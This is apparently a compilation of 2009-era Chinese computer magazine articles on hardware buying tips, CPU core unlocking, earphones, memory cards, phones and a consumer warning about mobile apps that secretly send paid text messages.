45nm速龙双核5000+具备破四核心的潜力，之前的90nm、65nm版本的速龙双核5000+就无缘了，主频为2.2GHz，与65nm羿龙X 4 9550一样，所以也有人怀疑该处理器正是四核9550屏蔽了两颗核心并升级45nm制程工艺的产物。如果开核成功的话，400元左右无人能敌。想要能够成功破解，首先是CPU被屏蔽的核心没有严重缺陷，其次就是主板芯片组必须具备ACC（Advanced Clock Calibration高级时钟校准功能）功能，目前主要是SB750以及SB710。比如技嘉的GA-MA770-US3，华擎A785GM-LE/128M，微星的785GTM-E45，只要能将Advanced Clock Calibration选项菜单下Advanced Clock Calibration设置为Auto（自动），同时设置EC Firmware Selection（嵌入式控制器固件选择）为Hybrid（混合），破解就基本成功，跑上几个小时的测试如果没有蓝屏、黑屏现象那就是完美“核变”了，2变4之后对电源与散热也更有挑战，如果系统不稳定要用排除法判断，到底是核心缺陷还是散热不好或是电源带不动。

目前45nm速龙双核5000+报价为400元，性价比奇高，对于消费者而言，花400元的代价即可获得一颗四核心CPU，在开启核心和L3的6MB缓存后的性能提升还是非常大的，尤其是在3D渲染性能方面，体现出多核心、高缓存的优势。对于超频玩家来说具备挑战速龙II X4 620或者酷睿2双核Q8300的潜力。

### 小提示：四核的秘密

ACC时钟校验功能就是允许CPU在工作的过程中出错，但不会导致系统瘫痪，因此无论是否在高频率下运行，只要打开ACC时钟校验，并设置容差值，因此在允许CPU有大幅计算误差的情况下，不达标的核心，有可能就会变成“特定容差”下的达标核心就被释放出来了。

（文/ul）

# 给“破核党”降降温

要说如今哪个CPU卖的最火，当属AMD 速龙X2 5000，各大IT论坛，网站充满了“X2 5000”、“破四核”的字眼，AMD给我们的免费大蛋糕真有这么好吃？请看分解。

### 传奇再现

X2 5000的前辈65nm版本的黑盒5000+不锁倍频，当初造成不小轰动，如今45nm X2 5000的知名度已经完全超越它了，400元就能买到手，还能破解四核，性能直逼E8300，被网友戏称为“信X2 5000原地复活性能翻倍”，超值得没话说。但是没点能耐盲目跟风购买，搞不好就会花冤枉钱。

### 看懂“天书”再选购

-   ★破核有风险，入手需谨慎。
    只有最新的45nm X2 5000才能破解四核，之所以能破核，源起它是AMD从四核处理器上屏蔽掉不稳定、甚至坏掉的两个核，既然如此就存在着破解概率的说法，CPU出厂时间不同、批次也有分别，这就靠CPU的编号去区别，不同编号的CPU破解四核的成功率也不一样。目前来说AD5000ODJ22GI、0935BPMW、0936DPDW、0937XXXX成功率比较高，当然以后新出厂的批次可能会更容易破解。
-   ★主板是关键。
    如果说CPU是破核的主角，那么主板就是破核的舞台，没有主板的支持是无论如何也不能破核成功，只有选择采用特定几个型号南桥的主板才可以，也就是必须具备ACC高级时钟校验功能的主板，目前主要是790GX/790X/790FX+SB750、785G+SB710、770+SB710五款芯片组。建议选购BIOS功能较为全面的一线厂商产品，比如技嘉的GA-MA770-US3、华擎A785GM-LE/128M、微星的785GTM-E45等主板，成功率比较高。
-   ★完美破解可遇不可求。
    所有可破四核的X2 5000都是通过屏蔽核心得到的，AMD不会傻到将一颗性能优异的四核处理器屏蔽掉核心去卖，被屏蔽核心在破核成功后能不能稳定运行也是有体质差异的，之所以破四核成功后，CPU超频性能优异的少之又少，就是因为AMD为了区分低端、高端市场，让破四核的X2 5000不会影响到真四核的市场。建议与商家协商好，购买包破四核的CPU，并在发票上注明，商家会挑选体质优异的X2 5000去销售，当然价格会稍贵些，不过至少能避免因为体质差造成破解后不稳定（见图1）。

| Processor | |
| --- | --- |
| Name | AMD K10 |
| Code Name | Brand ID 5 |
| Package | Socket AM2+ (940) |
| Technology | 45 nm | Core Voltage | 1.344 V |
| Specification | AMD Phenom(tm) FX-5000 Quad-Core Processor |
| Family | F | Model | 4 | Stepping | 2 |
| Ext. Family | 10 | Ext. Model | 4 | Revision | RB-C2 |
| Instructions | MMX(+), 3DNow!(+), SSE, SSE2, SSE3, SSE4A, x86-64 |

| Clocks (Core #0) | | Cache | |
| --- | --- | --- | --- |
| Core Speed | 3300.2 MHz | L1 Data | 4 x 64 KBytes | 2-way |
| Multiplier | x 11.0 | L1 Inst. | 4 x 64 KBytes | 2-way |
| Bus Speed | 300.0 MHz | Level 2 | 4 x 512 KBytes | 16-way |
| HT Link | 1800.1 MHz | Level 3 | 6 MBytes | 48-way |

完美开四核并超频至3.3GHz

熟悉这些要点以后再去选购称心的X2 5000，自然会事半功倍，不得不说X2 5000的到来让四核时代离大众更进一步，不少饭阵营用户转移到了A饭阵营，期待看到英特尔尽快推出同价位能与之抗衡的CPU。

（文/ul）

# 看两个高清才过瘾

不同的视频输出到不同的显示器上，看电影、看电视剧同时进行，省时间还能饱眼福。要想实现双流解码输出，有NVIDIA显卡特有的第四代Pure video技术支持，不难实现，而低端显卡GeForce 9系列显卡也可以，硬件方面的条件有GeForce?9或G200系列显卡，并且显卡不能太缩水，必须具备双DVI或者DVI+HDMI视频输出接口。而软件方面只要有支持HDTV硬件解码的播放器即可。

打开NVIDIA驱动程序控制面板，打开设置多个显示器选项。音频可以用声卡的光纤/同轴端子与模拟信号端子来输出两路不同的信号。

播放器设置比较简单，使用PowerDVD 8与完美解码2009两个软件，可以完美地支持HDTV输出，完美解码2009播放器会调用PowerDVD 8的解码器，要注意的是先打开PowerDVD 8，再开启完美解码2009，能实现同时对H.264/AVC视频解码，这样避免两个程序争抢一个解码器。经过简单的设置，就能实现同时播放两个高清视频，有双显示器或者液晶电视的朋友快动手试试吧。

（文/HY）

# 选你想要的MP4

| 问题 | 是 | 否 |
|---|---|---|
| Q1: 喜欢坐车时或课堂上消磨时光, 每天看电影时间超过2小时 | 是2 | 否3 |
| Q2: 至少存储10部电影, 保留认为经典的电影多次欣赏 | 是4 | 否7 |
| Q3: 看电影只是偶尔, 听音乐比较多 | 是5 | 否6 |
| Q4: 网上有标清格式的电影才打算下载, 认为低码率的电影影响心情 | 是6 | 否5 |
| Q5: 身为数码达人MP4、手机、PSP等许多设备经常随身携带 | 是B | |
| Q6: 经常摄饭, 爱穿名牌, 喜欢把MP4当做镜子 | 是C | |
| Q7: 乐于寻找别人手机、PSP、笔记本中不同格式的电影 | 是8 | 否5 |
| Q8: 经常更换固件, 乐于折腾来挖掘产品新功能 | 是A | |

| 投票项目 (多选，最多可选10项) | 比例 |
|---|---|
| 1. GG | 19 (10.98%) |
| 2. MM | 1 (0.58%) |
| 3. 14岁-20岁 | 11 (6.36%) |
| 4. 20岁-28岁 | 7 (4.05%) |
| 5. 28岁以上 | 4 (2.31%) |
| 6. 500元以下 | 17 (9.83%) |
| 7. 500-800可以考虑 | 6 (3.47%) |
| 8. 800以上 | 1 (0.58%) |
| 9. 4寸屏以上 | 7 (4.05%) |
| 10. 6寸屏以上，越大越好 | 9 (5.20%) |
| 11. MP4里一些交关系，尺寸大才够爽 | 12 (6.94%) |
| 12. MP4要便携，越轻越好，屏幕4寸够用了 | 10 (5.78%) |
| 13. 容量大于4G，越大越好 | 7 (4.05%) |
| 14. 容量16G够用，再大没需求 | 13 (7.51%) |
| 15. 分辨率800*480足够了 | 16 (9.25%) |
| 16. 分辨率1080才够用 | 3 (1.73%) |
| 17. 略看重品牌 (大品牌有保证) | 15 (8.67%) |
| 18. 略看重性能 (支持格式，固件更新速度等) | 15 (8.67%) |

市场上的MP4产品如此繁多复杂，究竟哪些亮点是你关注的呢?
《电脑爱好者》读者大调查，帮你选出最合适的MP4。

### 数据导读

14-28岁年龄段的消费者占到近75%，90%的朋友只对800元以下的产品感兴趣，并且500元以下的产品占多数。喜欢6英寸以上的消费者不少，但是由于价格限制，产品过少，70%的人认为16GB容量已经够用，90%的朋友认为分辨率800×480的屏幕足够清晰。在大品牌与高性能的选择上基本持平。

昂达VX575HD(8GB) 使用的是5.0英寸屏幕，分辨率为800×480，在视频方面支持RM/RMVB、AVI、MKV、VOB、MOV、DAT、FLV等多种格式，音频方面支持MP3、WMA、AAC、APE、FLAC多种格式，另外OTG功能拓展能力也很强，昂达官方论坛上美化固件也不少，全面看来可玩性非常高。

A: 略看重性能 (支持格式、固件更新速度等)。
我要自定义：我喜欢功能强大的mp4，像iPodtouch那样的。

B 奥特曼：其实我的要求就是听歌，偶尔看个电子书什么的，对视频什么的没有要求。
选择B的朋友对视频播放能力没什么要求，听音乐是主要使用方式，那些价格便宜音质不错、高性价比的产品很合适。从分析数据看，70%的消费者购买能力处于500元左右，这样一来，便携能力就相对重要些，屏幕尺寸过大，重量太沉的产品不会受到欢迎。

Cyier: MP4的话，1080分辨率效果还是不算太明显的，毕竟来说屏幕尺寸摆在那里了。
选择C的朋友更看重MP4本身的定位，对播放能力相对挑剔，只有屏幕效果出色的产品才能满足。从分析数据看，即便是追求高清，但90%的朋友认为800×480的屏幕足够清晰，过高分辨率的屏幕优势并不明显。

选择A的朋友很看重MP4的性能，不仅支持的格式要足够多，不需要转换视频拿来就能播放。从分析数据来看，超过半数消费者看重MP4的可玩性，厂商更新固件的速度也要快，最好第三方软件、游戏也很丰富才能满足。

纽曼MANMAN A13(8GB) 同样使用5.0英寸屏幕，分辨率为800×480，但是色彩还原能力要更优秀，可以播放分辨率1280×720的视频，主控芯片华芯飞CC1600解码能力强，虽然软件功能不够丰富，但是对付电影绝对是好手，红外遥控在外接显示时也能更方便控制播放。



价格：499元

台电M33(8GB)使用的是3.0英寸屏幕，分辨率也不高，仅有432×240，偶尔看电影，经常听音乐比较适合，体型十分小巧，便于携带，支持常见的AVI、RM、RMVB、FLV、MP3、WMA、FLAC、APE、AAC音视频格式，750mAH的电池用来听音乐足够使用近20小时。


价格：360元



价格：699元

# 傻博士眼中的“听力杀手”

傻博士：社会进步了，人们担心的事情也变多了。这不，前些天俊太打电话给我说，“老头子啊，你总坐在电脑前面，记得带法藤圈；吃东西不能吃样，容易得胃癌；出门时记得看车、不要闯红灯；陌生人和你说话的时候不要答应……”
不过说实话，有些时候这些的担心有些杞人忧天，也可能是空穴来风，正逢我家的小孙子要买耳机。问题那是一大堆啊，我给他也给大家解答一下吧。
傻孙最近听说了一个名字，叫做入耳式耳塞，不知道听起来貌似很高档的东西，用起来怎么样，不如问问爷爷吧。

Q：什么是入耳式耳塞？
A：它是一种用在人体听觉器官（耳朵）内部的耳机，根据其设计，会在使用时密封住使用者的耳道。这种密封性大体上提供了两种功能：一来可以降低外界噪音对音乐的干扰，二来提供的一个封闭的环境，大大减少了漏音。
人的耳道长度大概在2.5cm左右，入耳式耳塞封闭了耳道并且离耳膜更近，一般距离耳膜1.5cm-2.0cm。
这样带来的好处显而易见，不但可以在嘈杂的环境中用较低的音量听音乐，对音乐细节的表现能力会更好。

A: 橡胶套的目的是更好的封闭你的耳道，不只是橡胶套，我们还会见到海绵套和为用户定制的硬套。通常越大或者插入耳道越深的橡胶套会有更好的隔音和低音效果。当然，还是要根据佩戴良好后自己偏好的舒适度来选择这些耳套。
乐味MY03带有大、中、小三个橡胶套，可以根据需求和舒适度自行选择。

哦，这下子俊孙明白了，但是摸摸自己口袋发现已经花了大半年的压岁钱已所剩无几……
Q：入耳式耳塞一定比普通耳塞贵吗？
A：除去研发成本不提（这个我们无法量化），开模、单元等费用几乎一致，千元以下的耳塞都是使用塑料外壳与动圈式单元。
当然也有部分高档一些的入耳式耳塞采用的不是我们常见的动圈单元，而是动铁单元。
小知识 什么是动铁单元？
动铁耳塞内部，导线是绕在一个位于磁场的中央的“平衡衔铁”上。动圈是直接带动振膜，而动铁是通过一个结构精密的连接棒传导到一个微型振膜的中心点。简单的讲，动铁单元振动的是“铁片”，而常见的动圈单元振动的是“导线圈”。
动铁单元比较小，所以常见于在较小的耳塞中。

了，听说最近流行性感冒，明天开始我给你带好口罩吧；对了，说正事，你孙子非要我给买什么入什么什么耳塞，邻居孩子四姨的叔叔和我说，那个东西用时间长了耳朵会发炎出很多耳垢，然后就变聋了，可不能给孙子买啊。
傻博士：这孩子，没钱就会找他奶奶，不过这傻老太太（确实傻博士的老伴还真是叫傻老太太），还真真是听风就是雨……
Q：长时间使用入耳式耳塞后，为何会有大量耳垢？
A：当有异物插入耳道时，你的耳朵会产生更多的耳垢。这是人的身体在耳道湿润、封闭的情况下保护自我，对抗外界物体，防止细菌增生的方法。因此，在使用入耳式耳塞时，最好不时的取下耳机使空气流通令耳道放松（也可以让你的中部/深层耳道能在声音的持续轰炸下有一个短暂的休息）。
Q：入耳式耳塞会让我的听力受到影响吗？
A：你需要知道，不论你使用的是哪一种耳机（或者音箱），过长时间、高音量的听音乐都会损害你的听力。而使用入耳式耳塞的优点是，你可以将音量开的很低，因为你不需要提高音量来抵消背景噪声。这种更小的音量意味着在嘈杂的环境中，使用入耳式耳塞将会比使用耳机，非入耳式耳塞更安全。而不要认为入耳式耳塞靠近耳膜就容易伤害听力。既然入耳式耳塞的使用音量较低，那么它在同样音量的情况至少和一般耳机一样安全。
傻博士：优秀的入耳式耳塞会带给你音乐的享受，而劣质的入耳式耳塞很可能设计不良或者使用劣质的单元毁了你的耳朵。价格永远不该是衡量耳机优劣的唯一方面，亲自戴上试一试，也许你会从此爱上入耳式耳塞……




傻太：老头子……你今天有没有多喝水啊？给你买的法藤圈有没有带？三姑四婶大舅妈的小孙女前两天开车出车祸了，你晚上坐地铁回来吧，开车太危险

# 学过算术就能买合适存储卡

SanDisk发布了速度达到惊人的90MB/s CF存储卡、30MB/s的Class10级别SD存储卡，要知道90MB/s的速度已经超过现在笔记本硬盘的速度了。使用数码相机的用户又按捺不住准备出手，这些高速卡价格不菲，更多的是为专业单反数码相机准备的，普通用户真的有必要用高速卡来买卡吗？

小知识：
class级别是区分SD卡最低速度的标准，卡常见有Class2(2MB/s)、Class4(4MB/s)、Class6(6MB/s)三种规格，实际速度要比标准值快些。Class 2：能满足手机使用，以及作为U盘的替代存储；Class 4：满足数码相机连拍等需求；Class 6：建议专业单反相机连拍和高清摄像机使用。

卡片机饭量很小
大部分用户使用的是千万像素级别的卡片机，它

Class 2、Class 4、Class 6 读写速度对比图表

我们来做一个简单的计算题，以最大值来计算卡片机连拍时需要消耗的存储空间：5MB×2张/秒×10秒=100MB。换个说法，10秒时连拍了20张照片，每张5MB一共100MB，而SD卡以常见的Class 2实际写入速度在4MB~6MB之间，Class 4在8MB~11MB之间，Class 6达到了13MB~18MB之间(见图)。Class 2的写入速度满足不了假设计算结果，10秒只能写入最多80MB数据，如果用卡片机连拍会出现放慢、等待的现象。

这里就引用了木桶效应，考虑到现在不少卡片机加入了高清拍摄的功能，这对存储卡的速度更是挑战，Class 2级别的存储卡已经对卡片机连拍造成了瓶颈，消除瓶颈只能选购Class 4级别以上的存储卡，然而最高建议控制在Class 6级别下，速度过快也只能是浪费。这段时间闪存芯片由于产能降低，逐渐涨价，导致存储卡价格全线飙红，此时购买更要选择性价比最高的产品。

# “挂Q”聊天只靠“智能机”

如今无论是，在公交车上，还是在卖场、餐厅等公共场所，总能听到滴滴滴滴的QQ消息声音，手机挂Q不是智能机的专利，然而要想做到最能挂，MSN、QQ、飞信甚至校内网和阿里旺旺都必须通吃才行。这样强大的功能只有靠智能机了。

1000元首选摩托罗拉Q8
QWE键盘（类似电脑键盘一样，每个字母键单独分开）配合Windows Mobile 6.0系统，在易用性上要好于S60系统，1130毫安时的电池勉强达标，320×240像素分辨率的2.4英寸屏幕用来聊QQ、MSN看得才够清晰。键盘下空出的距离方便操作，侧面的滚轮键更加适合单手使用，配备的双声道扬声器还算比较令人满意，但其耳机效果不好，而且耳机插口采用了2.5毫米设计，更换音质好的耳机有一定限制。

再也不用为电池续航而烦恼了

500元就能时尚与性能兼收
那些有点烧包的朋友不仅追求手机的性能，还更注重时尚的外观。2000元左右的诺基亚5800XM虽然是一款触摸屏产品，真正使用起来并没有太多不适应，主要是因为虚拟QW键盘很好用，360×640像素分辨率3.2英寸大屏幕也能尽情操作，聊天时的感觉的确很爽，1320毫安时的电池也足够一天使用，实际上把它当小MP4来用也很合适，考虑到钢琴烤漆表面比较光滑，全触屏很怕磕碰更怕摔，一定要配一个皮外套使用。

手机毕竟是有辐射的，当手机放在音箱旁GPRS开启时总是滴滴嘀嘀响个不停，所以手机尽量不要贴身放置，尤其是长时间挂着聊天，辐射可不是好玩的哦。

# 选耳麦 从细节着眼

汪中求的《细节决定成败》一书大卖，给予了社会浮躁之风一记重击，我们往往在生活中缺乏对细节重要性的认识，凡事皆有细节可寻。

如果从用途上区分，可以把耳麦分为便携音乐型、游戏电影型，两类耳麦虽然可以通用，但是在自己擅长的方面，都有对方不能替代的优势。

### 便携音乐型
便携、重量轻、音效也不差，这一类耳麦的选购偏重外观，造型时尚些的会很惹人喜爱。现代HY-9060MV设计得很漂亮，第一眼就会喜欢上它，钢琴漆质感使它全身都在闪光，十分让人着迷，从听感来说，解析力还算不错，中音听久了也不累耳朵，适合听流行音乐。

### 游戏、电影型
定位要准确，效果必须震撼才能看大片，所以一般都会做的厚重些，欧凡OA-8008MV与普通耳麦不同的是能够产生震动效果，点击线控的BASS按钮后，功放会产生低音增益效果，并且开启震动，听过后才知道，看《变形金刚2》只能用爽翻来形容。

身边三个细节
细节一：头箍与耳麦单元之间的角度决定了佩戴舒适程度，如果摆动角度太小，容易夹的耳朵疼，摆动范围越大自然越能贴合头部的曲线。HY-9060MV与OA-8008MV上下摆动都很灵活，有1cm的摆动幅度，能够适应各种头型。

细节二：优质插头是保证纯正信号源从电脑输入到耳机的第一步。那些廉价耳麦的插头模具精度很低，一个是电气接触不好，信号损耗加大，另外有甚者插头很难拔插，长此以往加速耳麦插孔磨损，造成以后搭配标准插头时反而出现虚接的毛病。HY-9060MV的耳机、麦克风插头分别标注了绿色与红色区别，难能可贵的是还选用了镀金插头，电气性能优异。因为OA-8008MV是具备声卡的，所以插头是USB接口，放置了磁环，减少电脑其他信号对声卡的干扰。

细节三：没有线控的耳麦在易用程度上大打折扣，调节音量不能顺手拈来太不方便了。有线控的耳麦就要看做工如何，经常遇到调节音量时嘶嘶作响，甚至有一个单元干脆就不响了，所以一定要挑选做工合格的产品。HY-9060MV的线控比较简单，有一个滑动变阻音量旋钮调节音量，一个开关控制麦克风，音量旋钮手感不错，没有顿挫感，阻尼力道也刚刚好，OA-8008MV的线控其实就是它的USB声卡，里面电路板走线还算整洁，焊点处理得再干净些就好了。

细节四：与耳朵最亲密接触的就是耳套，耳麦戴久了耳朵会出汗，透气好不好，耳套材料软硬都直接有影响。HY-9060MV的耳套略微偏硬，类似皮肤材质，透气效果一般，选用软材质的海绵会更舒服。OA-8008MV材质就舒服多了，因为单元直径大，能够直接罩住耳朵，所以透气效果一般。

细节五：会话聊天、QQ语音都离不开还原声音效果好以及灵敏度高的麦克风，因为无法从外观去判断，建议选购时要上机试一下，是马就不怕遛。HY-9060MV与OA-8008MV的麦克风都没有减少呵气音的海绵套，是一个遗憾，并且后者的麦克风不能随意调节弯曲度。

细节六：单元是耳麦的灵魂，单元越大动能也就越大，能够产生足够的声压，这样才能体会到震撼的音效，蚊子哼哼那样的耳麦远离最好。当然，大尺寸单元的声音还原效果也更出色，能做到低音浑厚、中音饱满、高音亮丽。HY-9060MV与OA-8008MV的单元都是40mm的，功率储备150mW，较一般产品要高一些，注意OA-8008MV的震动部分，是一个偏转轮实现的，与手柄一样，虽然原理简单，但是效果真的很出色，会随着低音的强度变化，时而弱时而强，看大片再合适不过了。

# 买耳麦看哪里 不要白让大虾告诉你

### 结构篇

一款耳麦的寿命首先取决于其佩戴结构，不舒服或者是支架不牢靠都无法拥有长时间的寿命，而结构的牢靠要看支架、转轴、棉套的好坏。

耳机的支架分为顶部支撑和两侧支撑，顶部支撑一般不容易折断，主要的优劣在于是否贴合头部，长时间使用是否有不适感，优秀的耳麦顶部支撑都比较宽大，这样才能使头部均匀受力，不会产生不适感（图中漫步者K310的顶部支撑宽大且具有一定的柔韧性）。

两侧支撑除了一样需要注意舒适度之外，更需注意的就是弹性和是否坚韧。由于两侧支撑通常有调节长短的能力，所以在调节处的受力点需要格外观察，它的强度直接决定两个单元会不会从支架上散架（图中耳机柱、管连接紧密，并且强度较高，长时间使用不易折断）。

耳机若想佩戴舒适，那么为了贴合头型两个单元要有一定的转动调节能力，但这样也会产生问题，但凡出现转轴的地方，强度势必是一个大问题（图中转轴转动灵活，两侧摇动后几乎未发生位移）。

在就要说耳棉这个往往被忽视的地方，不同于支架结构，耳棉要求的是柔韧，顾名思义，柔软并且坚韧（图中耳棉经拉扯未发生变形，切具有不错的弹性）。

### 元件篇

何为原件，原件就是耳机中的单元、麦克、音量调节等电子器件。一般来说它们的可靠程度要大于机械部分，毕竟不受力且出厂时多多少少要经过检验。

-   ★单元是耳麦中发声的部分，声音的音质、音量、平衡（左右音量大小）都要靠它来把控。我们首先需要观察的便是它的大小，一般来讲尺寸要超过1英寸（2.54cm）才有不错的声音表现能力。其次需要观察线缆的焊点，脱焊、虚焊都会对单元的寿命产生影响，并且可能带来杂音（图中单元大小为1.5英寸，振膜按下后能自我恢复，说明具有很好的发声能力）。

麦克也是耳麦中最重要的组成部分之一。一般我们的耳麦都采用碳粒麦克，这部分只需要看一看焊点即可，更多的需要接在电脑上进行实测，录音饱满且噪音较小者为佳。

-   ★劣质耳机往往最容易出问题的便是这个小小的音量调节器，拆开后我们会发现它的结构非常简单，只是一个滑动电阻和若干连线。观察焊点后，连接电脑，高频率的转动音量，无噪音者为佳。

大虾：虽然上面很多方法需要拆包并且拆解耳机，但是大多数都可以通过目测加电脑实测来实现。虽然略显繁琐，但劣质耳机无疑是浪费你兜里为数不多的人民币，为了选择一款寿命5年的耳机，累点也值得了，你说呢小菜……

# 你敢用吗——用502胶水导热的散热器

最近IT卖场、淘宝网一批仅售价20元的主板北桥热管散热器，上面还打着华硕的铭牌。

热管竟然有如此便宜？其实明眼人一看就知道这哪里是华硕造，分明就是山寨造，上当的用户曝光散热片与热管、底座相连接位置，居然使用了502胶水（见图1）！如果不知道的话，用在主板上，稍微一受热就会散架，至于所谓的热管就是普通的镀铜铁管。这样赤裸裸地坑害消费者，不仅毫无散热性能可言，502胶水甚至会腐蚀北桥芯片，造成无法修复的损伤。那么究竟什么样的热管能用呢？

### 北桥冒烟很严重
市场上高性价比的主板，基本上都没有配备带热管的北桥散热器，只有一些中高端的产品才会采用。北桥的散热很重要，作为内存与CPU的交换枢纽，平时使用过程中发热量极大：若是超频使用，热量会直线增加，决定超频的成功与否，不仅是内存时序与CPU电压，散热，其实北桥的温度也有一定影响。

### 硅脂远比502好用
说到这，不少玩家想改善一下北桥的散热条件了吧，不论换成纯铜风扇型，还是纯铜热管型散热器，都离不开硅脂，购买的新散热器底部会带有硅脂，但是效果很一般，如果换成含铜粉、银粉的导热硅脂（见图2），导热效率会增加很多，用这些去替代CPU散热器、北桥散热器甚至是显卡散热器原有的硅脂，温度不只凉快一点点。

### 热管有真假
由于热管本身制造工艺的原因，价格较高，市场上那些几元钱的热管，基本上都是镀铜的铁管，所以不能贪图便宜，购买这些毫无使用价值的伪热管。带热管的北桥散热器基本上在百元左右，其实如果不超频，使用普通带风扇的纯铜散热器就足够了，三四十元就可以搞定，效果远比502伪热管来得优秀。

散热器这看似不起眼的小东西，实际上对电脑长期稳定使用起着至关重要的作用，可以说它是幕后的英雄。

# 恶意软件 你恶心了谁

经常使用智能手机的朋友，想必都曾遇到这样的情况，看一个软件介绍得不错，一安装不是那么回事，想卸载还删除不干净，这还算善良点的恶意软件。

### 你中过几招？
什么是恶意软件？简而言之，恶意软件或多或少都有些非法目的，要么乱扣费，要么打广告，类似的软件很多，总结下来都有几点规律可循：

-   ★安装过程没有任何提示，后台偷偷发短信，联网进行扣费，某些可耻的居然还重复发。
-   ★有很不显眼的提示，容易迷惑新手用户，导致发短信、联网扣费。
-   ★虚假的提示，明明是CMNET连接，却提示CMWAP连接。
-   ★不经同意偷偷地收集用户个人资料。
-   ★捆绑快捷键、书签等，安装时很容易，删除却老难了。

好在有众位热心网友总结的“恶意软件”排行榜，算是跟大家提个醒吧。

-   ★商务管家
-   ★网秦通讯管家
-   ★美通无线音乐播放器
-   ★手机大头
-   ★拇指精灵
-   ★主题管家
-   ★在线音乐播放器靡靡之音

### 还手机一个清白
既然能把恶意软件曝光，自然是有办法去解决他们，中招也别慌。
商务管家很恶很流氓！安装后会自动发短信到50139，一条短信收1毛钱，并且没有已发记录，如果没有开启“接收报告”，普通用户根本发现不了它，基本上它就隐形了。
防治大招：先删除软件，再删除C盘（手机内存）/E盘（存储卡）下symstem data platman和C/E下的system apps platman文件完全卸载。
网秦通讯管家在收费提示时并没说清楚，很多新手在被收费后，才大骂它是收费的。点击同意安装后自己就悄悄发出短信下载安装包，这一点做得显然不够人性化，更新一次病毒库2元。
在线音乐播放器靡靡之音听歌就听歌吧，普通人GPRS流量还是花的起的，可是一首歌还要加收1块钱，穿个马甲就以为自己是点歌台啊。音质垃圾不说，还擅长后台偷偷发短信。
列举这些恶意软件的“罪行”，是让大家对那些打着各种旗号，实则乱七八糟的软件远离些，一般情况下不小心安装之后，及时删除软件，并且打手机客服电话查询是否已订阅某些业务。最后要提醒大家，安装软件时一定要仔细，切勿抱有老鸟心理，狂按下一步，毕竟现在的恶意软件太邪恶了，不得不防。

# BANK非银行 认清再买DDR3

您可别一提BANK就往“银行”的意思上想，在IT界它还有一个意思就是内存插槽。目前，随着DDR2内存价格疯涨，不少人开始看好DDR3内存平台，因为两者价格已经相差无几。只是这颗甜枣吃不好的话容易中招。

DDR3内存的好处大家都知道，1.5V的工作电压更低，降低功耗的同时又解决了散热的难题。起步频率更高，自然速度更快，优势如此明显，装机还有什么顾虑？

当然有，这里不得不提到BANK一词。

### 逻辑BANK
▲通俗地说逻辑BANK是内存条上的芯片内部存放数据的一个空间，可以理解成每一个芯片都有一个BANK，那么一根内存就会有许多个BANK。

### 物理BANK
▲物理BANK亦可以理解为主板上的内存插槽个数，但是物理BANK数的多少是主板芯片组决定的，插槽个数只是表象。

### 物理BANK存不了太多“钱”
市场上出现的6根内存插槽设计的主板，比如技嘉P55-UD6，采用了四根蓝色、两根白色的内存插槽。为什么用颜色区分呢？其中两根白色为一组双通道，另外四根蓝色共享一组双通道。如果同组的四根蓝色DIMM插槽同时插满四根双面内存，有可能仅会识别出一半，因为只有两根白色内存插槽支持双面DDR3内存，其他插槽只支持单面DDR3内存，物理BANK无法支持那么多的逻辑BANK。

### 避免BANK门有妙招
不建议购买单条4G DDR3内存，目前都是双BANK设计，意思就是主板一般最多插上2根内存，即使你安装了8GB内存，并且使用64位操作系统，内存的利用也达不到8GB。当然X58那样三通道是可以完美支持插满内存的，P45/P55等6插槽内存还是尽量避免插满内存，两根双面2GB内存组成双通道4GB系统就可以了。内存超过4GB时，多余容量的内存只能用一半，假设4根插槽全部插满2GB内存，总共容量也只用6GB可用（2×2+1+1）。

（文/C#）

# Mini Nuclear Battery（硬币大小“核电池”）

美国密苏里大学的研究小组对外宣称，外观仅有硬币大小、使用寿命可达普通电池100万倍的微型“核电池”已经被研发出来。据悉，他们通过利用微型和纳米级系统开发出了一种超微型电源设备，这种设备通过发射性物质的衰变，释放出带电粒子，从而获得持续电流。该团队开发出的微型“核电池”使用某种液态半导体，在带电粒子通过时并不会对半导体造成损伤，所以它们得以进一步小型化电池。负责该项目的Jae博士称，虽然人们总是闻“核”色变，但实际上核动力能源早就被应用在例如心脏起搏器、太空卫星和海底设备等多种安全供电项目上。

# 咱有免费的12580

12580？那个能查饭店、车次的电话？要收费？算了吧。

时尚生活，飞速发展，手机性能，日新月异。转眼间，年轻一族喜欢去消费，更喜欢消费得时尚些，12580固然很强大，可是有些智能手机上装几个软件就能实现的功能，再去花电话费去问客服MM，显然不够时尚，不要浪费越来越好的手机性能和配置，拿起手机，咱也玩一把免费的12580！

本文软件下载地址：http://work.newhua.com/cfan/200923/12580.rar

# 今天你WM了吗

WM平台以其电脑般操作的简单通用性在年轻人中迅速普及，成为S60的最强劲对手。下面的软件都是Cab的标准WM安装程序，安装方法简单，占内存也不大。同样在S60平台下也可以找到。

### ★列车时刻表（WM 320×240）

| 学站 | 总里程 | 里程1 | 里程2 | 中转站 |
|---|---|---|---|---|
| 杭州 | 1042 | 24 | 1018 | 杭州东 |
| 上海南 | 1318 | 147 | 1171 | 嘉兴 |
| 南京 | 1104 | 40 | 1064 | 嘉兴 |
| 嘉兴 | 1176 | 67 | 1109 | 嘉兴 |
| 杭州东 | 1024 | 17 | 1007 | 海宁 |
| 海宁 | 1024 | 33 | 991 | 嘉兴 |
| 松江 | 1266 | 121 | 1145 | 嘉兴 |
| 嘉兴 | 1348 | 177 | 1171 | 嘉兴 |

经常坐火车的朋友不必再拿着纸质的列车时刻表，把它装在手机中，全身电子装备旅途中会轻便很多。界面简洁明了，信息显示直观，很容易就能搞定一时之急了。只需要手机具备GPRS上网功能，几分钱的流量轻松搞定列车时刻表。

### ★谷歌地图（WM）
在电脑上看谷歌地图很爽吧？对地理位置一目了然，还能切换到卫星画面，对比着辨别周围环境更容易。而且卫星地图更新得很快，更重要的是它可以搜索线路，想去哪里吃饭，去哪里K歌，只要输入地点，就会搜索出到达此地的线路、交通换乘方法。

UCWEB浏览器功能也很丰富，搜集了众多提供生活查询功能的网站，但是大部分都是网页形式呈现结果，而且比较费流量，有兴趣的可以试一试。

小提示：
12580的有些功能还是不错的，比如订机票、订酒店，因为价格浮动区间很大，手机端实现这些功能性价比不高。

（北京/检查用户）

# 雪景如此美丽 我该怎么留住你

今年北方罕见大雪，怎能不抓住大好机会，留住这与岁月相印的美丽瞬间？

> “路上是一片被人踩的支离破碎的残雪，就像是一个完整的冬天，却被人扯成几片。一直潜伏在心底的愿望终于一发而不可收拾。我要去中国最冷的地方拍雪去……”

走，拍雪去！希望总是美好的，但结果未必如愿，就像兴致勃勃地拍雪，最后却看着一堆离想象相差甚远的相片独自沮丧。

